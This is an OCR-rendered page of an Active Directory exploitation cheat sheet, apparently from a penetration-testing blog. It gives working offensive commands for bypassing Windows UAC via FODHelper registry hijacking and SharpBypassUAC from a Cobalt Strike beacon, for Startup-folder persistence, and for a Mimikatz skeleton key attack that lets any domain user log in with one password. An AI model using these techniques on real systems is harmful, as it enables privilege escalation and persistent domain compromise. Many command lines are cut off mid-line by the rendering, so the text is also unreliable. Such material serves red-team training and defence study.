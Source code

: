 # Generate EncodedCommand
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon
# Use SharpBypassUAC e.g. from a CobaltStrike beacon
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypass

In some cases you may get away better with running a manual
UAC bypass such as the FODHelper bypass which is quite simple
to execute in PowerShell
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

21/31

# The command to execute in high integrity context
$cmd = "cmd /c start powershell.exe"
# Set the registry values
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settin
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settin
# Trigger fodhelper to perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -Windo
# Clean registry
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recur

Persistence
Startup folder
Just drop a binary Classic 😎🚩
In current user folder will trigger when current user signs in

c:\Users\[USERNAME]\AppData\Roaming\Microsoft\Windows\St

Or in the startup folder requires administrative privileges but will
trigger as SYSTEM on boot and when any user signs on

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Sta

Domain Persistence
Must be run with DA privileges

Mimikatz skeleton key attack
Run from DC Enables password “mimikatz” for all users 🚩

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
